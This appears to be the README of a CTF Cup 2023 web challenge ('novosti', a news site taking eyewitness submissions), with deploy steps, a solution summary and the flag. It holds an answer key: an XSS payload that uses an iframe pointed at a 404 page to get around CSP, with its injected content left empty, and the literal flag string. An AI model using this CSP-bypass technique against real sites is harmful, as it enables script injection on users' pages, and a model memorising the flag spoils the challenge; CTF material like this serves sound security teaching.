

# web | novosti



## Information

Мы думаем над тем, чтобы запустить свою собственную газету и новостной сайт, но не хотим связываться с новостными агенствами,
поэтому мы решили получать новости из первоисточника - очевидцей самих новостей!

[https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru](https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru)

## Deploy

1. Create flag secret in deploy directory.
2. Create admin token secret in deploy directory.
3. Launch the compose project.

```sh
cd deploy
echo "ctfcup{flag}" > novosti-flag
echo "random-token" > novosti-admin-token
docker compose -p web-novosti up --build -d
```

## Public

Provide zip file: [public/novosti.zip](public/novosti.zip).

## TLDR

XSS, use iframe leading to 404 in order to bypass CSP

```html
<script>
  const iframe = document.createElement("iframe");
  iframe.src = "/404";
  document.body.appendChild(iframe);
  setTimeout(() => {
    iframe.contentWindow.document.body.innerHTML = ``;
  }, 1000);
</script>
```

## Writeup (ru)

TODO

## Writeup (en)

TODO

## Domain

https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru

## Cloudflare

Yes

## Flag

ctfcup{b4by-1fr4m3-x55-a4371ea843fc145f}
